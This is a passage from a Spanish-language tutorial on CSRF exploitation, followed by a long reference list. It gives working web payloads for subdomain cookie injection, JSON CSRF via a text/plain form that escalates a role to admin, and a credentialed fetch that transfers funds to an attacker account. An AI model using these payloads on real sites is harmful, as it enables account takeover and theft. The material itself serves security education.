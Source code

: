 #### 3. Subdomain Cookie Injection[^15]

Si el atacante controla un subdominio:

```html
<!-- En atacante.victima.com -->
<script>
document.cookie = "_csrf=controlled_value; Path=/api; domain=victima.com";
// Ahora puede usar este valor en ataques CSRF
</script>
```

### JSON-Based CSRF Attacks

Los ataques CSRF JSON son especialmente peligrosos en APIs modernas:[^18]

#### Content-Type Bypass Technique

```html
<form action="https://victima.com/api/update_profile" method="POST" enctype="text/plain">
  <input type="hidden" name='{"email":"atacante@atacante.com","role":"admin"}' value=''>
</form>
```

**Resultado:** El servidor recibe:

```json
{"email":"atacante@atacante.com","role":"admin"}=
```

#### Advanced JSON CSRF con Fetch API

```html
<script>
// Bypass para APIs que requieren application/json
fetch('https://victima.com/api/transfer_funds', {
  method: 'POST',
  credentials: 'include',
  headers: {
    'Content-Type': 'text/plain'  // Evita preflight
  },
  body: JSON.stringify({
    amount: 10000,
    destination: "atacante_account"
  })
});
</script>
```

## Técnicas Avanzadas de Explotación

### Self-XSS a XSS Real mediante CSRF

**Escenario:** Self-XSS en campo de perfil + endpoint vulnerable a CSRF


[^1]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-51489
[^2]: https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-9.0
[^3]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-56924
[^4]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-47828
[^5]: https://infosecwriteups.com/csrf-in-2025-solved-but-still-bypassable-942ca382ab77
[^6]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
[^7]: https://brightsec.com/blog/csrf-example/
[^8]: https://www.cobalt.io/blog/csrf-bypasses
[^9]: https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
[^10]: https://www.linkedin.com/pulse/bypassing-unpredictable-csrf-tokens-muvhango-magatshavha-jl7lf
[^11]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
[^12]: https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
[^13]: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
[^14]: https://osintteam.blog/web-security-academy-csrf-samesite-lax-bypass-via-cookie-refresh-775f4f6efdc2
[^15]: https://owasp.org/www-chapter-london/assets/slides/David_Johansson-Double_Defeat_of_Double-Submit_Cookie.pdf
[^16]: https://sallam.gitbook.io/sec-88/write-ups/exploiting-json-based-csrf-the-hidden-threat-in-profile-management
[^17]: https://bugbase.ai/blog/how-to-bypass-csrf-protection
[^18]: https://stackoverflow.com/questions/11008469/are-json-web-services-vulnerable-to-csrf-attacks
[^19]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^20]: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
[^21]: https://outpost24.com/blog/csrf-attacks-simplified-guide/
[^22]: https://www.certuscyber.com/insights/bypass-samesite-cookie/
[^23]: https://zuplo.com/learning-center/preventing-cross-site-request-forgery-in-apis
[^24]: https://www.stackhawk.com/blog/react-csrf-protection-guide-examples-and-how-to-enable-it/
[^25]: https://moldstud.com/articles/p-comparing-csrf-protection-methods-lumen-vs-other-frameworks
[^26]: https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2024-52402
[^27]: https://portswigger.net/web-security/csrf
[^28]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
[^29]: http://scielo.sld.cu/scielo.php?script=sci_abstract\&pid=S2306-24952024000700133\&lng=en\&nrm=iso
[^30]: https://learn.snyk.io/lesson/csrf-attack/
[^31]: https://stackoverflow.com/questions/79368322/how-to-bypass-samesite-cookie-restriction-in-microsoft-edge-during-local-develop
[^32]: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ise-csrf-y4ZUz5Rj
[^33]: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
[^34]: https://www.youtube.com/watch?v=ucHEU1Z9DhU
[^35]: https://nvd.nist.gov/vuln/detail/CVE-2024-51484
[^36]: https://en.wikipedia.org/wiki/Cross-site_request_forgery
[^37]: https://vulnapi.cerberauth.com/docs/vulnerabilities/security-misconfiguration/http-method-allow-override
[^38]: https://www.linkedin.com/pulse/how-double-submit-cookie-prevent-csrf-viral-parmar-qzyqc
[^39]: https://www.youtube.com/watch?v=Jv-LXLID3VA
[^40]: https://www.webasha.com/blog/how-does-csrf-lead-to-account-takeover-real-world-example-and-exploit-chain-explained
[^41]: https://brightsec.com/blog/csrf-mitigation/
[^42]: https://github.com/obiba/opal/security/advisories/GHSA-27vw-29rq-c358
[^43]: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
[^44]: https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/
[^45]: https://stackoverflow.com/questions/73031478/is-the-double-submit-cookie-pattern-really-safe
[^46]: https://www.wiz.io/academy/cross-site-request-forgery-csrf
[^47]: https://www.acceis.fr/csrf-get-samesite-concrete-attack/
[^48]: https://www.bitsight.com/blog/web-application-security-devops-anti-csrf-and-cookie-samesite-options
[^49]: https://heycoach.in/blog/cross-site-request-forgery-csrf-prevention-techniques/
[^50]: https://www.sciencedirect.com/science/article/pii/S2667295221000258
[^51]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-22424
[^52]: https://infosecwriteups.com/how-i-exploited-a-hidden-csrf-vulnerability-and-how-you-can-prevent-it-d089ad23887d
[^53]: https://www.openwall.com/lists/oss-security/2024/11/16/2